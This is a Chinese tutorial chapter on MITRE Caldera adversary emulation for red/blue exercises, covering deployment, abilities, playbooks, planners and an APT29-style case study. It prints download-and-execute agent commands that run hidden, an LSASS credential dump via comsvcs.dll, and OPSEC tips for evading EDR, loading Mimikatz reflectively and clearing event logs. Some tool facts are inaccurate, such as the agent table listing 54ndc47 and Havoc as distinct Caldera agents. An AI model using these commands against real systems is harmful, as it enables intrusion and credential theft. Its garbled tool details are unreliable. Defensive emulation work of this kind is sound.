

## 26.2.6 MITRE Caldera自动化攻击模拟

### 概述：为什么需要自动化攻击模拟

在红蓝对抗中，人工渗透测试虽然深入但速度慢、覆盖面有限，且高度依赖个人经验。对于拥有数百台服务器、数千个终端的企业网络，逐个测试 ATT&CK 框架中数百种技术显然不现实。MITRE Caldera 正是为解决这一矛盾而生——**将 ATT&CK 知识图谱转化为可自动化执行的攻击剧本**。

MITRE Caldera 的核心价值在于三点：

1. **可重复性**：同样的攻击剧本可反复执行，验证防御体系的改进效果。例如，蓝色团队部署新的 EDR 检测规则后，红色团队用同一套 Operation 重新跑一遍，就能量化检测率从 40% 提升到了多少。
2. **覆盖度**：按 ATT&CK 框架系统化执行，避免人工测试的盲区。人工渗透往往集中在高价值路径上，忽略了低频但有效的技术组合。
3. **可量化**：生成结构化的测试报告，蓝色团队可据此确认检测规则的覆盖缺口。报告按 ATT&CK 战术阶段分类，精确到每个技术的检测/未检测状态。

> **定位**：Caldera 是对抗模拟（Adversary Emulation）工具，不是渗透测试框架（如 Metasploit），也不是漏洞扫描器（如 Nessus）。它的目的是模拟真实攻击者的行为模式，而非单纯发现漏洞。与 Atomic Red Team 相比，Caldera 更侧重于编排多步攻击链和自动化运营，而 Atomic Red Team 更侧重于单个技术的可执行测试用例。

---

### Caldera 架构原理

理解 Caldera 的架构是高效使用它的前提。Caldera 采用客户端-服务器架构，核心设计理念是**关注点分离**：攻击逻辑（Ability/Adversary）、执行逻辑（Planner）、通信逻辑（Agent）各自独立，通过 REST API 统一编排。



#### 核心组件

| 组件 | 功能 | 详细说明 |
|------|------|---------|
| **Server** | 控制中心 | 管理所有操作、代理、配置。基于 Python asyncio 实现高并发，通过 REST API（v2）暴露所有功能，默认监听 8888 端口 |
| **Agent（代理）** | 植入端 | 部署到目标机器上执行攻击命令。支持 Sandcat(Go)、54ndc47(Python)、Ragdoll(PowerShell) 等，每种代理有不同的隐蔽性和功能特性 |
| **Ability（能力）** | 攻击技术 | 对应 ATT&CK 中的单个技术，由命令模板、平台兼容性、前置条件、清理命令等组成。是 Caldera 最小执行单元 |
| **Adversary（攻击者）** | 剧本模板 | 将多个 Ability 按逻辑编排为完整攻击链。支持顺序执行、条件分支和动态选择 |
| **Planner（规划器）** | 执行逻辑 | 决定如何选择和执行 Ability：顺序执行、条件执行、并行执行、按阶段分批等。可通过插件扩展 |
| **Fact（事实）** | 运行参数 | Operation 执行过程中产生或注入的上下文信息（IP、用户名、密码哈希等），在 Ability 之间动态传递 |
| **Source（数据源）** | 事实提供 | 给 Planner 提供初始 Fact 集合。可以是静态配置，也可以从外部工具（BloodHound、Nmap）导入 |
| **Operation（操作）** | 运行实例 | 选定 Adversary + Planner + Group + Source 后的一次完整执行。记录所有 Ability 的执行结果和产生的 Facts |
| **Group（组）** | 目标分组 | 将多个 Agent 按目标分类（如"工作站组"、"服务器组"），Operation 在指定组的所有 Agent 上执行 |
| **Plugin（插件）** | 功能扩展 | Caldera 的扩展机制。官方插件包括 Stockpile（Ability 库）、Atomic（Atomic Red Team 集成）等 |

#### 通信协议与安全机制

Agent 与 Server 之间的通信是 Caldera 安全性的核心：

```text
┌──────────────┐                    ┌──────────────┐
│   Agent      │   HTTP/HTTPS       │  Caldera     │
│  (目标机)    │◄══════════════════►│  Server      │
│              │                    │              │
│  ┌────────┐  │   心跳间隔: 15s   │  ┌────────┐  │
│  │命令执行│  │   默认: HTTPS      │  │命令下发│  │
│  │结果回传│  │   API Key认证      │  │结果接收│  │
│  │事实提取│  │                    │  │事实存储│  │
│  └────────┘  │                    │  └────────┘  │
└──────────────┘                    └──────────────┘
```

- **心跳机制**：Agent 每 15 秒（默认）向 Server 发送心跳请求，同时检查是否有待执行的命令。心跳间隔可通过 `sleep` 参数调整，隐蔽场景下建议增大到 60-120 秒。
- **通信加密**：生产环境必须启用 HTTPS。Agent 支持 SSL 证书验证，`--insecure` 模式仅用于测试环境。
- **认证方式**：API Key 认证（HTTP header `KEY: <api_key>`）。每个用户可配置不同权限（red/blue/admin）。
- **隐蔽通信**：Sandcat 支持通过 C2 中继（如 Cobalt Strike 的 External C2）进行通信，避免直连 Caldera Server 被流量分析工具发现。

#### 数据流详解

```text
用户/API 启动 Operation
    → Planner 读取 Adversary 定义
    → Planner 遍历 Ability 列表
        → 检查 Ability 的前置条件（requirements）
        → 从 Fact Source 获取所需 Facts
        → 将命令模板中的 {fact_name} 替换为实际值
        → 通过 REST API 下发命令到目标 Agent
        → Agent 执行命令，收集 stdout/stderr
        → Agent 从输出中提取新的 Facts（如 IP 地址、用户名）
        → Agent 回传执行结果和新 Facts 到 Server
        → Server 存储结果，Planner 继续下一 Ability
    → 所有 Ability 执行完毕
    → 生成 Operation 报告（按战术/技术分类）
```

#### Caldera v5 新特性

Caldera 持续迭代，v5 版本引入了若干重要改进：

| 特性 | 说明 |
|------|------|
| **异步 Planner** | 支持基于事件触发的异步执行，而非严格的线性顺序 |
| **增强的 Fact 系统** | 支持 Fact 关联（linking）、规则验证（rules）和动态 Fact 生成 |
| **多 Agent 协同** | 同一 Operation 可跨多个 Agent 并行执行，支持结果汇总 |
| **插件热加载** | 运行时动态加载/卸载插件，无需重启 Server |
| **改进的 Web UI** | 更直观的 Operation 监控面板，实时显示 Agent 状态和命令执行进度 |
| **MITRE ATT&CK v14+ 支持** | 内置映射更新到最新 ATT&CK 版本，覆盖更多技术 |

---

### 部署与安装

#### 环境要求

| 需求 | 最低配置 | 推荐配置 | 说明 |
|------|---------|---------|------|
| CPU | 2 核 | 4 核+ | 多 Agent 并发时需要更多 CPU |
| 内存 | 4GB | 8GB+ | 大量 Ability 并发执行时内存消耗显著 |
| 磁盘 | 10GB | 50GB+ | 存储日志、报告和 Payload 文件 |
| Python | 3.8+ | 3.10+ | 源码部署时需要 |
| Docker | 20.10+ | 24.0+ | Docker 部署时需要 |
| 操作系统 | Ubuntu 20.04+ / CentOS 8+ | Ubuntu 22.04 LTS | 推荐 Debian 系 |
| 网络 | Agent 可达 Server 的 8888 端口 | 7010-7012 端口也开放 | 代理通信端口 |

#### 方式一：源码安装（开发/测试环境）

```bash
# 克隆仓库（含子模块）
git clone https://github.com/mitre/caldera.git --recursive
cd caldera

# 创建虚拟环境（隔离依赖）
python3 -m venv venv
source venv/bin/activate

# 安装依赖
pip install -r requirements.txt

# 以非安全模式启动（自签名证书，仅测试用）
python3 server.py --insecure &

# 验证服务
sleep 5
curl -k https://localhost:8888/api/v2/health
# 预期返回：{"status": "healthy"}

# 访问 WebUI
# https://localhost:8888
# 默认凭据：admin / admin（首次登录后必须修改）
```

#### 方式二：Docker 部署（推荐生产环境）

```bash
# 使用官方 Docker 镜像
docker pull ghcr.io/mitre/caldera:latest

# 运行容器
docker run -d \
  --name caldera \
  -p 8888:8888 \
  -p 7010:7010 \
  -p 7011:7011 \
  -p 7012:7012 \
  -v caldera_data:/usr/src/caldera/conf \
  -v caldera_logs:/usr/src/caldera/logs \
  -e ADMIN_PASSWORD="YourSecurePassword123!" \
  ghcr.io/mitre/caldera:latest

# 验证
docker logs caldera
# 看到 "Caldera server started" 表示启动成功
```

> **端口说明**：8888 为 WebUI + API 端口；7010 为 Sandcat TCP 代理通信端口；7011 为 Sandcat HTTP 代理通信端口；7012 为 Sandcat HTTPS 代理通信端口。生产环境建议仅开放 8888 和 7012。

#### 方式三：生产环境安全部署

```bash
# 1. 生成 SSL 证书（正式环境用 CA 签发的证书）
openssl req -x509 -nodes -days 365 -newkey rsa:2048 \
  -keyout conf/key.pem -out conf/cert.pem \
  -subj "/CN=caldera.corp.local"

# 2. 生成密码哈希
python3 -c "
import bcrypt
password = bcrypt.hashpw(b'YourSecurePassword123!', bcrypt.gensalt())
print(password.decode())
"

# 3. 修改配置文件 conf/default.yml
cat > conf/default.yml << 'EOF'
port: 8888
host: 0.0.0.0
ssl_certificate: conf/cert.pem
ssl_key: conf/key.pem
users:
  admin:
    password: "$2b$12$..."  # 上一步生成的 bcrypt 哈希
    red: true
    blue: true
  red_team:
    password: "$2b$12$..."
    red: true
    blue: false
  blue_team:
    password: "$2b$12$..."
    red: false
    blue: true
api_key: "your-custom-api-key-here"
crypt_salt: "random-salt-string"
reports_dir: /var/log/caldera/reports
plugins:
  - stockpile
  - atomic
  - sandcat
EOF

# 4. 启动（安全模式，不再需要 --insecure）
python3 server.py

# 5. 配置防火墙（仅允许内网访问）
sudo ufw allow from 10.0.0.0/8 to any port 8888
sudo ufw allow from 10.0.0.0/8 to any port 7012
sudo ufw deny 8888
```

> **安全提醒**：Caldera 是攻击工具，暴露在公网上极其危险。生产环境务必：修改所有默认密码和 API Key；配置 HTTPS 证书；仅通过 VPN 或内网访问；分离 red/blue 团队账户权限；定期审计 API Key 使用情况。

---

### 核心概念详解

#### 1. Agent（代理）类型与选择

Caldera 支持多种 Agent 类型，根据目标环境和隐蔽需求选择最合适的：

| Agent 名称 | 语言 | 大小 | 适用场景 | 隐蔽性 | 功能完整度 |
|-----------|------|------|---------|--------|-----------|
| **Sandcat** | Go | ~5MB | Windows/Linux/Mac 通用，功能最全 | 中 | ★★★★★ |
| **54ndc47** | Python | ~50KB | Linux 环境，轻量级 | 高 | ★★★☆☆ |
| **Ragdoll** | PowerShell | ~10KB | Windows 环境，内存执行 | 高 | ★★★☆☆ |
| **Manx** | Go | ~3MB | 反向 Shell 通信，多协议支持 | 中 | ★★★★☆ |
| **Havoc** | C++ | ~2MB | 高隐蔽性，绕过 EDR 检测 | 极高 | ★★★★☆ |

**选择策略**：

- **Windows 目标 + 有 PowerShell**：优先 Ragdoll（体积小、内存执行、难以检测）
- **Windows 目标 + 受限环境**：Sandcat（功能全、可编译为静态二进制）
- **Linux 目标**：54ndc47（轻量、Python 环境通常已有）
- **需要反向 Shell**：Manx（支持多种 C2 协议）
- **高隐蔽性需求**：Havoc（需额外配置，但 EDR 检测率最低）

**部署 Sandcat Agent 的多种方式**：

```bash
# 方式 1：直接从 Caldera 服务器下载并执行
# Linux 目标
curl -s http://caldera-server:8888/file/download | bash -s -- \
  -server http://caldera-server:8888 \
  -group target-group \
  -sleep 30

# Windows 目标（PowerShell）
Invoke-WebRequest -Uri http://caldera-server:8888/file/download -OutFile $env:TEMP\sandcat.exe
Start-Process -FilePath $env:TEMP\sandcat.exe -ArgumentList "-server http://caldera-server:8888 -group workstations" -WindowStyle Hidden

# 方式 2：预编译后分发（离线环境）
# 在构建机上编译
GOOS=windows GOARCH=amd64 go build -o sandcat.exe ./sandcat/
GOOS=linux GOARCH=amd64 go build -o sandcat ./sandcat/

# 方式 3：通过 API 生成（支持自定义参数）
curl -X POST http://caldera-server:8888/api/v2/deploy_agents \
  -H "KEY: ADMIN123" \
  -H "Content-Type: application/json" \
  -d '{
    "group": "target-group",
    "platform": "windows",
    "app": "sandcat",
    "paw": "custom-paw-id",
    "sleep": 30,
    "timeout": 0
  }'

# 方式 4：通过 C2 中继部署（隐蔽场景）
# Agent 连接 Cobalt Strike，Cobalt Strike 转发到 Caldera
# 具体配置见"与其他红队工具集成"章节
```

**Agent 通信参数说明**：

| 参数 | 默认值 | 说明 |
|------|--------|------|
| `-server` | 必填 | Caldera Server 地址 |
| `-group` | default | Agent 所属分组 |
| `-sleep` | 15 | 心跳间隔（秒），隐蔽场景建议 60-120 |
| `-timeout` | 0 | Agent 超时时间（秒），0 表示不超时 |
| `-v` | false | 详细日志输出 |
| `-c2` | http | 通信协议（http/https/udp） |

#### 2. Ability（能力）定义规范

Ability 是 Caldera 中最基本的执行单元，对应 ATT&CK 中的一个技术。编写高质量的 Ability 是高效使用 Caldera 的关键。

```yaml
# abilities/discovery/get-system-info.yml
- id: 3a2a6b5c-8d9e-4f01-9abc-def012345678
  name: Get System Information
  description: 收集目标系统的操作系统版本、主机名、运行时间等基本信息
  tactic: discovery                     # ATT&CK 战术阶段
  technique:                            # ATT&CK 技术映射
    attack_id: T1082
    name: System Information Discovery
  platforms:                            # 平台兼容性定义
    windows:
      psh:                              # PowerShell 执行器
        command: |
          $info = Get-ComputerInfo;
          Write-Host "Hostname: $($info.CsName)";
          Write-Host "OS: $($info.WindowsProductName)";
          Write-Host "Version: $($info.WindowsVersion)";
          Write-Host "Last Boot: $($info.OsLastBootUpTime)";
          Write-Host "Arch: $($info.OsArchitecture)";
        cleanup: |                       # 清理命令（执行后清理痕迹）
          Remove-Item -Path "$env:TEMP\sysinfo.txt" -Force -ErrorAction SilentlyContinue
      cmd:                              # CMD 执行器（备选）
        command: |
          systeminfo | findstr /B /C:"Host Name" /C:"OS Name" /C:"OS Version"
    linux:
      sh:
        command: |
          echo "Hostname: $(hostname)";
          echo "Kernel: $(uname -a)";
          echo "Uptime: $(uptime -p)";
          echo "CPU: $(nproc) cores";
          echo "Memory: $(free -h | grep Mem | awk '{print $2}')";
          echo "Disk: $(df -h / | tail -1 | awk '{print $4}') free";
  requirements:                         # 执行前置条件
    - source: target.host
      edge: has_shell_access
  payloads: []                           # 需要上传的载荷文件
  additional_fields:                     # 扩展元数据
    - risk: low                         # 风险等级：low/medium/high/critical
    - impact: informational             # 影响级别
    - detection: "Sysmon Event ID 1"   # 已知检测方法
```

**Ability 编写最佳实践**：

1. **唯一 ID**：使用 UUID v4，确保全局唯一。可通过 `python3 -c "import uuid; print(uuid.uuid4())"` 生成。
2. **多平台支持**：尽可能为 Windows（psh/cmd）和 Linux（sh）都提供实现。Agent 会根据目标平台自动选择。
3. **错误处理**：在命令中加入 try/catch 或错误检查，避免 Agent 卡死。例如 PowerShell 中使用 `$ErrorActionPreference = "Stop"`。
4. **结构化输出**：使用 JSON 或 Key-Value 格式输出，便于后续 Fact 提取和自动化处理。
5. **清理命令**：每个 Ability 都应有 cleanup 命令，执行后清理临时文件、日志等痕迹。
6. **前置条件检查**：通过 requirements 声明依赖的 Fact 和条件，避免在不满足条件时盲目执行。
7. **风险标注**：在 additional_fields 中标注 risk 和 impact，便于评估 Operation 的整体风险。

**Ability 中的 Fact 引用机制**：

```yaml
# Ability 命令中用 {fact_name} 引用 Fact
command: |
  # {target.host} 会被替换为实际的 IP 地址
  # {domain.admin.username} 会被替换为域管理员用户名
  # {cred.password} 会被替换为获取到的密码
  net use \\{target.host}\C$ /user:{domain.admin.username} {cred.password}
```

#### 3. Adversary（攻击剧本）设计

Adversary 将多个 Ability 编排为攻击链。一个好的攻击剧本应模拟真实攻击者的完整入侵流程。

```yaml
# adversaries/apt29-hamlet.yml
- id: 12345678-1234-1234-1234-123456789abc
  name: "APT29初始入侵模拟"
  description: "模拟APT29（Cozy Bear）的初始入侵手法——鱼叉式钓鱼+C2建立+凭证窃取+横向移动"
  atomic_ordering:              # 按顺序执行的 Ability 列表
    - b1d8c4e2-3f5a-4e7b-9c6d-1a2b3c4d5e6f   # 阶段1: 发送钓鱼附件
    - c2e3d4f5-6a7b-8c9d-0e1f-2a3b4c5d6e7f   # 阶段2: 执行宏代码/PowerShell
    - d3f4e5a6-7b8c-9d0e-1f2a-3b4c5d6e7f8a   # 阶段3: 系统信息收集
    - e4a5f6b7-8c9d-0e1f-2a3b-4c5d6e7f8a9b   # 阶段4: 建立持久化（计划任务）
    - f5a6b7c8-9d0e-1f2a-3b4c-5d6e7f8a9b0c   # 阶段5: 凭证窃取（Mimikatz）
    - a6b7c8d9-0e1f-2a3b-4c5d-6e7f8a9b0c1d   # 阶段6: 内部网络扫描
    - b7c8d9e0-1f2a-3b4c-5d6e-7f8a9b0c1d2e   # 阶段7: 横向移动（PsExec/WMI）
    - c8d9e0f1-2a3b-4c5d-6e7f-8a9b0c1d2e3f   # 阶段8: 数据收集
    - d9e0f1a2-3b4c-5d6e-7f8a-9b0c1d2e3f4a   # 阶段9: 数据外传
    - e0f1a2b3-4c5d-6e7f-8a9b-0c1d2e3f4a5b   # 阶段10: 清理痕迹
  tags:
    - apt29
    - cozy-bear
    - phishing
    - initial-access
    - credential-access
    - lateral-movement
  plugin: caldera
```

**Adversary 设计原则**：

- **真实映射**：每个 Adversary 应对应一个真实的威胁组织或攻击场景，参考 MITRE ATT&CK 的 Threat Actor 页面。
- **阶段完整**：覆盖完整的攻击生命周期（Recon → Weaponization → Delivery → Exploitation → Installation → C2 → Actions on Objectives）。
- **依赖清晰**：Ability 之间的 Fact 依赖关系要明确，确保后续 Ability 能获取到前面 Ability 产生的 Facts。
- **风险可控**：标注每个阶段的风险等级，便于评估是否在测试环境中执行。

#### 4. Fact 系统深入解析

Fact 是 Caldera 的动态参数系统，是理解 Ability 执行和跨阶段数据传递的关键。

**Fact 的生命周期**：

```text
┌─────────────┐     ┌─────────────┐     ┌─────────────┐
│  Source      │────►│  Operation  │────►│  Ability    │
│  (初始Fact) │     │  (运行时)   │     │  (执行中)   │
└─────────────┘     └─────────────┘     └─────────────┘
                         │                    │
                         │    提取新Fact      │
                         │◄───────────────────┘
                         │
                         ▼
                    ┌─────────────┐
                    │  Fact Store │
                    │  (持久化)   │
                    └─────────────┘
```

**Fact 的三种来源**：

1. **Source（静态注入）**：在 Operation 启动时提供的初始 Facts
2. **Agent 提取（运行时产生）**：Ability 执行后，Agent 从输出中自动提取
3. **API 注入（外部导入）**：通过 REST API 在运行时动态添加

**Fact 引用规则**：

```yaml
# 在 Ability 命令中引用 Fact
command: |
  # 直接引用：{trait_name}
  ping {target.host}
  
  # 带默认值：{trait_name|default_value}
  dir \\{target.host}\C$ /user:{domain.admin.username|administrator} {cred.password|password123}
  
  # 引用特定 Agent 的 Fact
  # Agent 的 Fact 以 {agent.paw.trait} 格式引用
```

**Fact 验证规则**：

```yaml
# sources/validated-source.yml
- id: validated-env
  name: 带验证的环境配置
  facts:
    - trait: target.ip
      value: "192.168.1.100"
    - trait: target.port
      value: "445"
  rules:
    - trait: target.ip
      match: regex
      value: "^((25[0-5]|2[0-4][0-9]|[01]?[0-9][0-9]?)\.){3}(25[0-5]|2[0-4][0-9]|[01]?[0-9][0-9]?)$"
      description: 验证 IP 地址格式
    - trait: target.port
      match: range
      min: 1
      max: 65535
      description: 验证端口范围
```

#### 5. Planner（规划器）选择与自定义

Planner 决定了 Ability 的执行顺序和策略。选择合适的 Planner 对测试效果至关重要。

| Planner 名称 | 策略 | 适用场景 | 优缺点 |
|------------|------|---------|--------|
| **atomic** | 按顺序执行所有 Ability | 标准测试、回归验证 | 简单可靠，但不考虑依赖 |
| **sequential** | 线性执行，前一个成功才执行下一个 | 模拟真实攻击链 | 真实性高，但一个失败会阻断后续 |
| **batch** | 并行执行所有能执行的 Ability | 快速全量扫描 | 速度快，但可能产生资源冲突 |
| **buckets** | 按 ATT&CK 战术阶段分批执行 | 分阶段验证防御 | 便于分阶段分析，但灵活性低 |
| **noisy** | 同时执行所有 Ability，不考虑隐蔽性 | 压力测试、SOC 报警测试 | 触发最多报警，但隐蔽性为零 |
| **ringed** | 分环执行，每环递增隐蔽性 | 渐进式测试 | 模拟攻击者逐步深入，但配置复杂 |

**自定义 Planner 示例**：

```python
# plugins/stockpile/app/planners/my_planner.py
import asyncio

async def execute(services, operation, agent):
    """自定义 Planner：分阶段执行，支持条件分支和 Fact 传递"""
    phases = {
        'recon': {
            'tactics': ['discovery', 'collection'],
            'required_facts': [],
            'on_failure': 'continue'    # 失败时继续执行
        },
        'credential': {
            'tactics': ['credential-access'],
            'required_facts': ['target.host', 'target.domain'],
            'on_failure': 'abort_phase' # 失败时中止当前阶段
        },
        'lateral': {
            'tactics': ['lateral-movement'],
            'required_facts': ['cred.password', 'domain.admin.username'],
            'on_failure': 'abort'       # 失败时中止整个 Operation
        },
        'exfil': {
            'tactics': ['exfiltration', 'command-and-control'],
            'required_facts': ['exfil.server'],
            'on_failure': 'continue'
        }
    }
    
    planning_svc = services.get('planning_svc')
    ability_svc = services.get('ability_svc')
    
    for phase_name, config in phases.items():
        # 检查前置条件
        missing_facts = []
        for fact_trait in config['required_facts']:
            if not await check_fact_exists(operation, fact_trait):
                missing_facts.append(fact_trait)
        
        if missing_facts:
            services.get('app_logger').info(
                f"Phase '{phase_name}' skipped: missing facts {missing_facts}"
            )
            continue
        
        services.get('app_logger').info(f"Executing phase: {phase_name}")
        
        # 获取本阶段相关的 Abilities
        abilities = await ability_svc.get_abilities(tactic=config['tactics'])
        
        phase_failed = False
        for ability in abilities:
            if phase_failed and config['on_failure'] == 'abort_phase':
                break
            
            try:
                result = await planning_svc.execute_ability(agent, ability, operation)
                
                if result['status'] == 'success':
                    # 从输出中提取新 Facts
                    new_facts = await extract_facts(result, operation)
                    services.get('app_logger').info(
                        f"Ability '{ability.name}' succeeded, extracted {len(new_facts)} facts"
                    )
                else:
                    services.get('app_logger').warning(
                        f"Ability '{ability.name}' failed: {result.get('error', 'unknown')}"
                    )
                    if config['on_failure'] in ('abort_phase', 'abort'):
                        phase_failed = True
                        
            except Exception as e:
                services.get('app_logger').error(
                    f"Ability '{ability.name}' exception: {e}"
                )
                phase_failed = True
        
        if phase_failed and config['on_failure'] == 'abort':
            services.get('app_logger').error(f"Aborting operation due to phase '{phase_name}' failure")
            break
```

---

### Atomic Red Team 集成

Atomic Red Team 是 MITRE 维护的另一个重要项目，提供可直接执行的 ATT&CK 测试用例。将其与 Caldera 集成可大幅扩充攻击能力库。

#### 安装 Atomic Red Team

```powershell
# Windows 环境安装（推荐）
Install-Module -Name invoke-atomicredteam -Scope CurrentUser -Force
Install-Module -Name AtomicRedTeam -Scope CurrentUser -Force

# 设置测试目录
$AtomicFolder = "C:\AtomicRedTeam"
Install-AtomicRedTeam -GetAtomicsFolder $AtomicFolder -Force

# Linux 环境安装
git clone https://github.com/redcanaryco/atomic-red-team.git
cd atomic-red-team
pip install invoke-atomicredteam
```

#### 基本使用

```powershell
# 列出所有可用测试
Get-AtomicTechnique | Select-Object Technique, Test_Name, Technique_Name

# 查询特定技术的测试
Get-AtomicTechnique -Technique T1003.001
Get-AtomicTechnique -TechniqueName "Credential Dumping"

# 执行前检查先决条件
Invoke-AtomicTest T1003.001 -TestNumbers 1 -CheckPrereqs

# 安装先决条件
Invoke-AtomicTest T1003.001 -TestNumbers 1 -GetPrereqs

# 执行单个测试
Invoke-AtomicTest T1003.001 -TestNumbers 1

# 清理测试痕迹
Invoke-AtomicTest T1003.001 -TestNumbers 1 -Cleanup

# 执行整个战术类别
Invoke-AtomicTest "credential-access"

# 带超时控制的执行
Invoke-AtomicTest T1003.001 -TimeoutSeconds 120

# 生成详细报告
Invoke-AtomicTest T1003.001 -ShowDetailsBrief
Invoke-AtomicTest T1003.001 -ShowDetails
```

#### 将 Atomic 测试导入 Caldera

```bash
# 在 conf/default.yml 中启用 atomic 插件
plugins:
  - stockpile
  - atomic

# 通过 API 导入 Atomic 测试到 Caldera
curl -k -X POST https://localhost:8888/api/v2/abilities \
  -H "KEY: ADMIN123" \
  -H "Content-Type: application/json" \
  -d '{
    "ability_id": "t1003-001-import",
    "name": "AtomicTest T1003.001",
    "description": "Import from Atomic Red Team - Create process dump via comsvcs.dll",
    "tactic": "credential-access",
    "technique": {
      "attack_id": "T1003.001",
      "name": "LSASS Memory Dumping"
    },
    "platforms": {
      "windows": {
        "cmd": {
          "command": "C:\\Windows\\System32\\rundll32.exe C:\\Windows\\System32\\comsvcs.dll, MiniDump $id C:\\temp\\lsass.dmp full"
        }
      }
    }
  }'
```

> **注意**：Atomic 测试需要管理员权限执行，建议在隔离的测试环境中使用。部分测试（如 T1485 - Data Destruction）具有破坏性，执行前务必确认操作范围。建议在非生产环境（如 Azure Red Team Lab、自建 AD 环境）中测试。

---

### 安全操作规范（OPSEC）

在真实红蓝对抗中，如何隐蔽地使用 Caldera 是关键技能。

#### 通信隐蔽

```bash
# 1. 增大心跳间隔，降低流量特征
# Agent 部署时指定更长的 sleep 时间
sandcat -server https://c2-server:443 -group covert -sleep 120

# 2. 使用 HTTPS 并模拟正常流量
# 配置 SSL 证书（使用 Let's Encrypt 或企业 CA）
# 避免使用自签名证书（容易被 TLS 检测工具识别）

# 3. 通过 C2 中继通信
# 避免 Agent 直连 Caldera Server
# 使用 Cobalt Strike External C2 或 Sliver 的 Malleable C2 配置

# 4. 伪装 User-Agent
# 在 Agent 配置中使用常见的浏览器 User-Agent
```

#### 命令执行隐蔽

```bash
# 1. 使用不常见的执行路径
# 避免直接调用 mimikatz.exe，使用反射 DLL 加载
# PowerShell: 避免 Invoke-Mimikatz，使用分段执行

# 2. 分散执行时间
# 避免短时间内执行大量 Ability
# 使用 Planner 的 sleep 参数在 Ability 之间添加延迟

# 3. 清理痕迹
# 每个 Ability 都应有 cleanup 命令
# 清理 Windows 事件日志中的相关条目
# 删除临时文件和下载的工具

# 4. 避免触发已知检测规则
# 参考 Ability 的 additional_fields.detection 字段
# 在高隐蔽性场景中跳过已知会被检测的 Ability
```

#### 日志管理

```bash
# 1. 限制 Caldera Server 日志级别
# conf/default.yml
log_level: warning  # 仅记录警告和错误

# 2. 使用独立的日志存储
reports_dir: /secure/logs/caldera
# 确保日志文件权限正确（仅授权人员可读）

# 3. 定期清理 Operation 记录
# 通过 API 删除历史 Operation
curl -k -X DELETE https://localhost:8888/api/v2/operations/{op_id} \
  -H "KEY: ADMIN123"
```

---

### 实战案例：完整红蓝对抗

#### 场景说明

**网络拓扑**：小型企业内网，包含：
- 1 台域控制器（DC01，Windows Server 2022）
- 5 台员工工作站（WS01-WS05，Windows 11）
- 1 台文件服务器（FS01，Windows Server 2022）
- 1 台 Linux 运维跳板机（Jump01，Ubuntu 22.04）

**红色团队目标**：从外网入口点渗透至域控制器，模拟 APT29 攻击链。蓝色团队同时运行 SIEM（Splunk）和 EDR（CrowdStrike）监控。

#### 阶段一：部署与初始化

```bash
# 1. 启动 Caldera 服务器
cd /opt/caldera
source venv/bin/activate
python3 server.py --insecure &

# 2. 确认服务正常
sleep 5
curl -k https://localhost:8888/api/v2/health
# 预期返回：{"status": "healthy"}

# 3. 配置目标分组
curl -k -X POST https://localhost:8888/api/v2/groups \
  -H "KEY: ADMIN123" \
  -H "Content-Type: application/json" \
  -d '{"name": "workstations", "description": "员工工作站组"}'

curl -k -X POST https://localhost:8888/api/v2/groups \
  -H "KEY: ADMIN123" \
  -H "Content-Type: application/json" \
  -d '{"name": "servers", "description": "服务器组"}'

# 4. 生成 Agent 并分发到目标
# 在 WS01 上执行（通过钓鱼邮件附件或 USB 投放）
powershell -Command "Invoke-WebRequest -Uri http://192.168.1.100:8888/file/download -OutFile $env:TEMP\sandcat.exe"
Start-Process -FilePath "$env:TEMP\sandcat.exe" -ArgumentList "-server http://192.168.1.100:8888 -group workstations -sleep 30 -tag initial" -WindowStyle Hidden
```

#### 阶段二：执行攻击链

通过 WebUI 或 API 创建并启动 Operation：

```json
{
  "name": "APT29模拟 - 第一阶段",
  "adversary": {
    "adversary_id": "APT29-Initial-Entry"
  },
  "group": "workstations",
  "planner": "sequential",
  "source": "basic",
  "state": "running",
  "autonomous": 1,
  "facts": [
    {
      "trait": "target.domain",
      "value": "corp.local"
    },
    {
      "trait": "c2.server",
      "value": "192.168.1.100"
    }
  ]
}
```

**执行结果示例（摘要）**：

| 步骤 | Ability | 状态 | 执行时间 | 输出摘要 |
|------|---------|------|---------|---------|
| 1 | 系统信息收集 (T1082) | ✓ 成功 | 2s | WS01, Windows 11 Pro, 用户:kyle |
| 2 | 网络扫描 (T1018) | ✓ 成功 | 15s | 发现 DC01(10.10.1.10), FS01(10.10.1.20) |
| 3 | 凭证抓取 (T1003.001) | ✓ 成功 | 3s | 获取域管理员 NTLM Hash |
| 4 | 横向移动 (T1021.002) | ✓ 成功 | 5s | PsExec 连接 DC01 成功 |
| 5 | 持久化 (T1053.005) | ✓ 成功 | 2s | 创建每日回拨计划任务 |
